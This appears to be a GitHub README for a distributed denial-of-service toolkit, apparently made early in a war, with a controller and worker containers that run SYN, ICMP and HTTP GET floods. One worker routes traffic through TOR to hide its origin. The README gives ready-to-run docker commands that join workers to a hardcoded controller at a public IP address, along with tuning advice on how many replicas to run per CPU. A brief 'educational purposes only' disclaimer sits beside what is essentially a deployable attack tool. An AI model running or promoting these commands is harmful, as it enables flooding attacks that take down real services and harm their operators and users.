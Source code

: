

Yes, this was created during the first days of the war, so the name takes inspiration from the now legendary war story. 

This tool was developed for educational purposes only. Obviously don't try to use it on real targets, do not attack servers that you don’t own, or you don’t have permission to stress-test.  


# Preparations
- Port scanner

# Attacks
#### DoS:
- SYN flood
- Ping (ICMP) flood
- HTTP GET flood

# General concept
The controller keeps track of current targets
Workers connect to contoller and ask him what to do. 

### Workers:
We currently provide 2 different type of workers that will perform the attack:

Haru - runs only HTTP flood attack, but it's very good at it, with heavy parallelization it can spam a huge amount of requests. It also includes TOR pre-installed in the docker container, so you can avoid exposing your worker's real IP address and run all requests through TOR proxy. If your machine is powerful enough you can run multiple replicas of this worker. We tested around 6 replicas on 2vCPU worked fine, and 30-40 replicas on 12vCPU.  

Aiko - combines SYN flood, ICMP flood and HTTP flood attacks in one container. The http flood portion of it is not as powerful as Haru's version, and there's no support for TOR this time. This worker is also extremely CPU intensive, it can load CPU up to 100% on small virtual machines with just one replica of the container running. 


# Run
#### Worker AIKO
```shell script
docker run --name=rvkinh-service-worker-aiko --rm -tid -e CLUSTER_ID=temp_c -e WORKER_ID=temp_w -e CONTROLLER_URL=http://142.93.38.82:8888 jpleorx/rvkinh-worker-aiko:latest
```

#### Worker HARU
```shell script
docker run --name=rvkinh-service-worker-haru --rm -tid -e CLUSTER_ID=temp_c -e WORKER_ID=temp_w -e CONTROLLER_URL=http://142.93.38.82:8888 jpleorx/rvkinh-worker-haru:latest
```

#### Controller
```shell script
docker run --name=rvkinh-service-controller --rm -tid -p 8888:8888 jpleorx/rvkinh-controller:latest
```

#### Web UI
```shell script
docker run --name=rvkinh-service-controller --rm -tid -p 8888:8888 jpleorx/rvkinh-ui:latest
```

